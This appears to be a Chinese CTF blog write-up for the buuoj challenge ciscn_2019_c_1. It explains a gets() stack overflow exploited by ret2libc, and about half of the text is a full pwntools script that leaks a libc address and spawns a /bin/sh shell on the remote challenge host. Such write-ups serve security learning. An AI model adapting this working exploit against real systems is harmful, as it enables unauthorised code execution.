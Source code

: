 ```yaml
---
title: buuoj - 2019国赛第一题
date: 2023/9/20 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过栈溢出和ret2libc攻击，利用`puts`泄露libc地址，最终执行`system("/bin/sh")`。
---
```


From buuoj.

## 文件分析

下载`ciscn_2019_c_1`, NX on, PIE off, RELRO partial  
ghidra分析为64位程序

## 解题思路

函数`encrypt()`中存在`gets`，考虑**栈溢出**攻击  
.text段中不存在后门函数，并且有nx，考虑ret2libc

**记录首次学会**

1. 获取`pop rdi; ret;`和puts@plt地址
2. 栈溢出打印puts@got
3. 根据puts@got获知靶机使用的libc
4. 将**puts@got**偏移到system@got & shstr@got
5. 回到`gets`函数，重新执行溢出拿到sh

{% note warning fa-exclamation %}
如果一个字节为**0x0a**，**会被截断**！（换行）
{% endnote %}

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 29693)
elf = ELF('ciscn_2019_c_1')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x0400c83
vulnAddr = 0x004009a0
retAddr = 0x0040099f # 不能带0x0a!!!

sh.sendline(b'1') # 选择1.Encrypt (Vulnerable Function)
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'\nI') # skip
sh.recvuntil(b'\nI') # skip
data = sh.recvuntil(b'\nI') 
putsGotAddr = u64(data[-8:-2] + b'\0\0')

libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcbase = putsGotAddr - libc.dump('puts')
systemAddr = libcbase + libc.dump('system')
shstrAddr = libcbase + libc.dump('str_bin_sh')

sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
